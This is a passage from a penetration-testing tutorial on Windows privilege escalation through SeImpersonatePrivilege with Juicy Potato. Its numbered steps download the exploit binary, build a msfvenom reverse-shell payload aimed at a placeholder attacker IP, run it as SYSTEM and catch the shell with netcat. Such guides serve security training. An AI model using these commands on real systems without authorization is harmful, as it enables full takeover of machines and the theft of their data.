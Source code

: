 ```yaml
---
legal-banner: true
---
```


### **INTRODUCTION**

Service accounts are generally configured with these two privileges. They allow the account to impersonate the access tokens of other users (including the SYSTEM user).

??? info "IMPORTANT"

    Juicy Potato attacks does NOT work on Windows 10 versions equal to or greater than 1809; and does NOT work on Server 2019 at all, For all versions of Server 2016 and Server 2019 we can use PrintSpoofer.exe, as well as every version of Windows 10 from at least 1607 onwards

### **EXPLOITING PRIVILEGES WITH JUICY POTATO**

Rotten Potato was quite a limited exploit. Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit. (These steps are for Windows 7)

1.  Verify if current user has SeImpersonatePrivilege privileges by running:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/144.png)
    
2.  Use curl to download JuicyPotato.exe from the GitHub repository.  
    `curl -L -o JuicyPotato.exe https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`  

    ![](../../../img/Windows-Environment/145.png)

    **NOTE:** this is a 64-bit executable. If you need a 32-bit version, you can find that [Here](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).
    
3.  we need to determine the OS version running on Attack Machine By using the following command:  
    `systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"`  
    
    ![](../../../img/Windows-Environment/146.png)
    
4.  This is a Windows 10 Professional – Build 10586. Note that ‘build’ and ‘version’ are different. Build 10586 corresponds to version 1511. Since 1511 < 1809, this Machine should be vulnerable if it hasn't been patched.  
    
    ![](../../../img/Windows-Environment/147.png)
    
5.  To execute a task as SYSTEM, one approach is to create an executable. This can be achieved using tools such as msfvenom or alternatively, by Using nc.exe   
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1234 -a x64 --platform Windows -f exe -o shell.exe`  
    
    ![](../../../img/Windows-Environment/148.png)
    
6.  Download both files onto the target using any one of the techniques found in File Transfer Section  
    
    ![](../../../img/Windows-Environment/149.png)
    
7.  Verify If the exploit Works by redirect the output to output.txt file:  
    `C:\Users\Public\Downloads\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c whoami > C:\Users\Public\Downloads\output.txt" -t *`  
    
    ![](../../../img/Windows-Environment/150.png)
    
8.  Start a netcat listener on port 1234 and execute shell.exe using JuicyPotato.exe:  
    `C:\Users\Public\Downloads\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Downloads\shell.exe" -t *`  
    
    ![](../../../img/Windows-Environment/151.png)
    
9.  If the process is created successfully, we have a SYSTEM shell on our listener.  
    `sudo rlwrap -cAr nc -lvnp 1234`  
    
    ![](../../../img/Windows-Environment/152.png)
    

### **IMPERSONATING THE LOCAL SYSTEM ACCOUNT WITH PRINTSPOOFER**